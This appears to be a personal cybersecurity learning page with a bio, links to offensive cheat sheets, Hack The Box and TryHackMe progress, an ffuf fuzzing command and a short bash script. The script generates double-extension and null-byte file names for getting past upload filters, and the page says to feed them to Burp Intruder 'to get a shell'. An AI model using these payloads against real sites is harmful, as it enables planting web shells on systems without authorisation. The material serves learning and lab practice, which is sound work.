 #### Welcome to cyberelic

This site focuses on my cyber security journey.

I am a dedicated cybersecurity enthusiast with a passion for safeguarding digital landscapes in an ever-evolving threat landscape. I thrive on the challenge of protecting organizations and individuals from cyber threats. Whether it's implementing robust security measures, conducting penetration testing, or staying up-to-date with the latest vulnerabilities, my mission is to fortify digital ecosystems and ensure data integrity.

---

Here is a small list of the cheat sheets i've been consistantly referring back to:

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master)

- [Hacktricks](https://book.hacktricks.xyz/)

- [WADcoms](https://wadcoms.github.io/)

---

`ffuf -u http://<target>:<ip> /w wordlist.txt`

---

here is a simple script that i used while trying to bypass and upload filter.


```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
        for ext in '.php' '.phps' '.phar'; do
           echo "shell$char$ext.jpg" >> wordlist.txt
           echo "shell$ext$char.jpg" >> wordlist.txt
           echo "shell.jpg$char$ext" >> wordlist.txt
           echo "shell.jpg$ext$char" >> wordlist.txt
       done
done
```

Use Burp and throw this into intruder to get a shell.

---
#### Hackthebox Academy:

I've been progressing through the Pentester Path and im about %60 finished and its truly a good way to learn the neccessary tools and techniques.

[Arachnoid](https://academy.hackthebox.com/achievement/badge/2fd5f36b-9e12-11ee-bfb6-bea50ffe6cb4) - For completing the Web Attacks module

---

<script src="https://tryhackme.com/badge/101635"></script>
